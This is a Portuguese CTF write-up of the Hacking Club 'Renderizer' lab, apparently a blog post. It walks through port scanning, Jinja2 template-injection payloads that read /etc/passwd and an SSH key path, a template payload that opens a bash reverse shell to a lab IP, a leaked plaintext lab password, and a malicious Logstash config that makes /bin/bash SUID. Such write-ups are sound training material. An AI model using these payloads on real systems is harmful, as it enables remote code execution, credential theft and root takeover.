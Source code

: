 ```yaml
---
title: 'Renderizer Writeup'
date: '2024-07-13'
tags: ['SSTI', 'RCE']
draft: false
summary: 'Writeup do CTF Renderizer da Hacking Club.'
images: ['/static/images/renderizer-writeup-images/1.png']
authors: ['default']
---
```


![Writeup-Renderizer 1](/static/images/renderizer-writeup-images/1.png)

## **Plataforma**: Hacking Club

### **Dificuldade:** Easy

### **Nome**: Renderizer

### IP: 172.16.14.128

---

## Port Scanning

`nmap -sV -sC -p- -v $IP --open`

```python
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 f7:37:6a:01:16:84:08:ea:92:19:b0:b3:ba:22:71:34 (ECDSA)
|_  256 59:00:f0:d6:c4:d4:f3:91:85:8f:1a:d2:1d:29:87:9e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods:
|_  Supported Methods: OPTIONS GET HEAD
|_http-title: Renderizer
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Somente as portas 22(SSH) e 80 (HTTP) estão abertas.

---

![Writeup-Renderizer 2](/static/images/renderizer-writeup-images/2.png)

`sudo vim /etc/hosts`
![Writeup-Renderizer 3](/static/images/renderizer-writeup-images/3.png)

### [http://renderizer.hc](http://renderizer.hc)

![Writeup-Renderizer 4](/static/images/renderizer-writeup-images/4.png)
![Writeup-Renderizer 5](/static/images/renderizer-writeup-images/5.png)

Ele diz que é um jinja2 , a gente pode deduzir que se trata de um SSTI (Server-Side Tempalte Injection), pra testar eu mandei um `{{7*7}}.`

![Writeup-Renderizer 6](/static/images/renderizer-writeup-images/6.png)

Depois de fazer algumas pesquisas , eu achei uma payload pra leitura de arquivos que funcionou.

`{{ get_flashed_messages.globals.builtins.open("/etc/passwd").read() }}`

![Writeup-Renderizer 7](/static/images/renderizer-writeup-images/7.png)

john:x:1001:1001::/home/john:/bin/bash e ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash são os usuários.

Tentei utilizar o mesmo pra pegar a chave ssh , mas não deu:

`{{ get_flashed_messages.globals.builtins.open("/home/john/.ssh/id_rsa").read() }}`

![Writeup-Renderizer 8](/static/images/renderizer-writeup-images/8.png)

`{{ "teste".class.mro[1].subclasses() }}` tentei usar essa payload pra verificar as subclasses presentes , mas tava dando um erro acredito que o servidor tenha algum tipo de proteção, então eu fui atrás de outro jeito de verificar.

E consegui assim:

```
{% for subclass in ''.__class__.__mro__[1].__subclasses__() %}
    <h2>{{ subclass.__name__ }}</h2>
    <ul>
    {% for attr in subclass.__dict__.keys() %}
        <li>{{ attr }}</li>
    {% endfor %}
    </ul>
{% endfor %}
```

![Writeup-Renderizer 9](/static/images/renderizer-writeup-images/9.png)

Agora é achar a posição do array do Popen pra ganhar um RCE.

## Initial Access

Payload do mano vert16x pra achar a posição do array do Popen automaticamente nos possibilitando um RCE.

```
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("/bin/bash -c 'exec bash -i &>/dev/tcp/10.0.31.150/1337 <&1'").read().zfill(417)}}{%endif%}{% endfor %}
```

![Writeup-Renderizer 10](/static/images/renderizer-writeup-images/10.png)

## Privillege Escalation

`cat /etc/crontab`

![Writeup-Renderizer 11](/static/images/renderizer-writeup-images/11.png)
Eu pensei incialmente em simplesmente alterar a pasta webapp com os comandos abaixo mas não funcionou, por alguma razão a cron não executava.

```
rm -rf webapp
echo '#!/bin/bash' > /home/john/webapp
echo 'chmod u+s /bin/bash' >> /home/john/webapp
chmod +x webapp
```

Então eu fui ver a pasta que estava sendo feito o backup `/var/backups`

![Writeup-Renderizer 12](/static/images/renderizer-writeup-images/12.png)

Se eu tentar dar o `unzip webapp-03-01-2024.zip` ele da permission denied

![Writeup-Renderizer 13](/static/images/renderizer-writeup-images/13.png)

Então a gente precisa copiar esse `webapp-03-01-2024.zip` pra pasta tmp
`cp webapp-03-01-2024.zip /tmp`

Na pasta tmp basta a gente unzipar o arquivo:

`unzip webapp-03-01-2024.zip`

![Writeup-Renderizer 14](/static/images/renderizer-writeup-images/14.png)

Depois de unzipar a pasta webapp tem uma variavel de ambiente `.env` que por sinal é a mesma senha do usuario que estamos logado `john` .

![Writeup-Renderizer 15](/static/images/renderizer-writeup-images/15.png)

`john:bwsTuCtSYue7G4`

`sudo -l`
![Writeup-Renderizer 16](/static/images/renderizer-writeup-images/16.png)

Pra explorar o logstash a gente precisa criar um arquivo `.yaml` malicioso.

[https://book.hacktricks.xyz/linux-hardening/privilege-escalation/logstash](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/logstash)

![Writeup-Renderizer 17](/static/images/renderizer-writeup-images/17.png)

```
input {
  exec {
    command => "chmod u+s /bin/bash"
    interval => 120
  }
}

output {
  file {
    path => "/tmp/output.log"
    codec => rubydebug
  }
}

```

depois é so rodar o comando , `sudo /root/logstash/bin/logstash -f /tmp/webapp/teste.yaml`

Demora alguns segundos pra rodar:

![Writeup-Renderizer 18](/static/images/renderizer-writeup-images/18.png)

E o /bin/bash vai virar SUID após a execução do logstash.

![Writeup-Renderizer 19](/static/images/renderizer-writeup-images/19.png)
![Writeup-Renderizer 20](/static/images/renderizer-writeup-images/20.png)

## Proof

![Writeup-Renderizer 21](/static/images/renderizer-writeup-images/21.png)
